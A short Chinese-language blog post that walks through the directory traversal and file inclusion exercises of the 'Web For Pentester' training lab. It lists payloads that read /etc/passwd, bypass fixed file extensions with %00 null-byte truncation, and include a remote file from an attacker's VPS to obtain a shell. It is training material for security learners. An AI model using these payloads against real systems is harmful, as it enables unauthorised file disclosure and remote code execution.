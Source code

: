 ```yaml
---
layout:     post
title:      "Web For Pentester - Directory traversal & File Include Part Tips"
subtitle:   "Training exercises"
date:       2016-11-01
author:     "Urahara"
categories: [pentest, Training documents]

---
```




## Directory traversal Part 

### Example 1

最基础的目录穿越造成的任意文件读取，这里为相对路径，通过“../”可进行目录跳转

**file=/../../../../../../../../etc/passwd**

### Example 2

路径显示为网站物理路径，直接改为/etc/passwd不成功，通过../进行目录穿越

**file=/var/www/files/../../../etc/passwd**

### Example 3

这里可以看出文件名后缀被写死到了程序当中，使用%00进行截断

**file=../../../../../../../../../etc/passwd%00**

## File Include Part

### Example 1

使用单引号报错可以看到程序抛出了异常，这里爆出了网站物理路径，并在程序中使用include()函数，当然可以使用目录穿越去包含本地/etc/passwd文件，也可以使用远程文件包含去getshell

**page=/../../../../../../../../etc/passwd**

**page=http://vps地址/phpinfo.txt**

### Example 2

与Directory traversal Part中的Example 3类似，通过%00去截断

**page=/../../../../../../../../etc/passwd%00**

**page=http://vps地址/phpinfo.txt%00**

